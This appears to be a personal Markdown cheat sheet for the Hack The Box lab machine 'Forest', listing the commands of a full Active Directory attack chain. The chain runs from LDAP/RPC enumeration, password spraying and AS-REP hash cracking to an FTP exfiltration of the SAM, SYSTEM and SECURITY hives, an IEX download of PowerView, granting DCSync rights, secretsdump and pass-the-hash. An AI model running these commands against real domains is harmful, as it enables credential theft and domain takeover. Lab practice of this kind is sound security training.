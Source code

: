 # Forest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

### NMAP RECON :

``nmap -sC -sV -oA forest 10.10.10.161``

``sleep300; nmap -p- -oA fullforst 10.10.10.161``

### SMB RECON :

``smbclient -L 10.10.10.161``

### LDAP RECON :

``ldapsearch -h 10.10.10.161 -x``

``ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap-anonymous.out``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i samaccountname``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i userPrincipalName``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i pwdLastSet``

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' samaccountname userPrincipalName pwdLastSet``

> google pwdLastSet ldap to human

https://www.epochconverter.com/ldap # Allows to transform data and to know if the accounts are valid 

### Transform commandes into a clean list of users and mails:

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap`` 

``ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' userPrincipalName | grep userPrincipalName | awk '{print $2}' > listmail.ldap``

### RPC RECON :

``rpcclient -U '' -N 10.10.10.161``

``enumdomusers``

``queryusergroups 0x47b``

``querygroup 0x47c``

``queryuser svc-alfresco``

### AD passwords policy with CME (crackmapexec) :

``crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''``

``crackmapexec smb 10.10.10.161 --pass-pol -u 'user.lst' -p 'passwd.lst'``

### Password spray with crackmapexec

``crackmapexec smb 10.10.10.161 -u 'user.lst' -p 'passwd.lst'``

### Which makes it possible to advance on this box

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/``       :white_check_mark:

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/ -format hashcat``

``hashcat --example-hashes | grep -i krb``

``hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt`` # ippsec add -r rules/InsidePro-PasswordsPro.rule try to understand why


# ${{\color{purple}Initial Foothold}}\ $

### Test with a valid user :
 
``crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

``crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares``

# ${{\color{purple}Exploitation}}\ $

### port 5985 is important it is Win-RM (powershell remoting)

``locate evil-winrm``

``/usr/bin/evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161``

# ${{\color{purple}Privilege Escalation}}\ $

### File transfer with FTP:

``find . | grep exe$``

``impacket-smbserver idk $(pwd) -smb2support -user user -password idkazewxc123``

``$pass = convertto-securestring 'idkazewxc123' -AsPlainText -Force``

``$cred = New-Object System.Management.Automation.PSCredential('HTB\ippsec', $pass)``

``New-PSDrive -PSProvider FileSystem \\10.10.16.5``


``systemctl restart pure-ftpd``

``echo 'open 10.10.16.5 21'> ftp.txt``

``echo 'USER offsec'>> ftp.txt``

``echo 'lab'>> ftp.txt``

``echo 'bin'>> ftp.txt``

``echo 'PUT C:\windows\system32\config\SYSTEM'>> ftp.txt``

``echo 'PUT C:\windows\system32\config\SAM'>> ftp.txt``

``echo 'PUT C:\windows\system32\config\SECURITY'>> ftp.txt``

``echo 'bye'>> ftp.txt``



``ftp –v –n –s:ftp.txt``

``systemctl stop pure-ftpd``

### File transfer with SMB :

``New-PSDrive -Name ippsec4 -PSProvider FileSystem -Root \\10.10.16.5\test``

``cd ippsec4:``

``/usr/share/doc/python3-impacket/examples/smbserver.py test /mnt/share -smb2support``

### Bloodhound :

### if there is an installation of bloodhound and I don't remember the password neo4j delet :

``rm /usr/share/neo4j/data/dbms/auth``
``neo4j console``
``neo4j password : sparta-castro-union-labor-pluto-9066``

``./BloodHound --no-sandbox``
``.\SharpHound.exe -c all``

### Bloodhound search :

``-Mark User as Owned``
``-Search for Shortest Path from Owned Principals``

``net user evil evil123 /add /domain``

``net group "Exchange Windows Permissions"``

``net group "Exchange Windows Permissions" /add evil``

### File transfer with SMB :

``IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8080/PowerView.ps1')``

``$pass = convertto-securestring 'evil123' -AsPlainText -Force``

``$cred = New-Object System.Management.Automation.PSCredential('HTB\evil', $pass)``

``Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity evil -Rights DCSync``

``/usr/bin/impacket-secretsdump htb.local/evil:evil123@10.10.10.161``

``crackmapexec smb 10.10.10.161 -u 'administrator' -H 32693b11e6aa90eb43d32c72a07ceea6``

``/usr/bin/impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161``

# ${{\color{purple}Points of Improvement}}\ $

- Don't forget / in impacket :

``/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/``
